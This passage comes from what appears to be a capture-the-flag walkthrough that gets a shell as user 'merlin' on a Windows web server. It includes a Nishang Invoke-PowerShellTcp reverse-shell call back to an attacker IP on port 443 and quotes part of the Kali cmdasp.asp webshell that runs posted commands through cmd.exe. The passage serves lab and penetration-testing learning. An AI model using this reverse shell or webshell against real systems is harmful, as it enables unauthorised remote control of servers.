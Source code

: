 ![](/img/1540549579070.png)

## Shell as merlin

### Prep

It's certainly possible to get a webshell, but I'll notice that the
`UploadedFiles` path is being cleared out every few minutes. So I'll opt
to go directly to reverse shell. First, grab a copy of [Nishang's
Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
Then add a line at the end to invoke a callback to me:



    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443



Now, since my asp skills are quite low, I started with the asp webshell
that comes on kali (`/usr/share/webshells/asp/cmdasp.asp`), and started
reading it to determine how code is actually executed. This part seemed
most interesting:



      ' -- create the COM objects that we will be using -- '
      Set oScript = Server.CreateObject("WSCRIPT.SHELL")
      Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
      Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

      ' -- check for a command that we have posted -- '
      szCMD = Request.Form(".CMD")
      If (szCMD <> "") Then

        ' -- Use a poor man's pipe ... a temp file -- '
        szTempFile = "C:\" & oFileSys.GetTempName( )
        Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
        Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)

